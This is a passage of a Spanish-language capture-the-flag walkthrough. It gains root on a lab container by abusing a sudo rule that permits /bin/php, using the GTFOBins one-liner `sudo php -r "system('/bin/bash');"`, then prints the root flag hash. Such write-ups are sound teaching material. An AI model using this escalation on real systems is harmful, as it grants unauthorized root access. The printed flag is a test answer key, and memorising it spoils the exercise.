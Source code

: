 Por lo que vemos nos saca las credenciales, por lo que volveremos a la terminal y ahora si haremos `sudo -l`, meteremos la contraseña obtenida por `hydra` y veremos lo siguiente.

```
Matching Defaults entries for an0n1mat0 on 63ccda3ff003:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User an0n1mat0 may run the following commands on 63ccda3ff003:
    (ALL : ALL) /bin/php
```

Por lo que podremos ejecutar el binario de `php` como `root`, haremos lo siguiente.

URL = https://gtfobins.github.io/gtfobins/php/#sudo

```shell
CMD="/bin/bash"
sudo php -r "system('$CMD');"
```

Y con esto ya seriamos `root`, por lo que leeremos la flag.

```shell
cd /root
cat root.txt
```

> root.txt

```
2d264e1f92a8230d442750d69fba4cc5
```
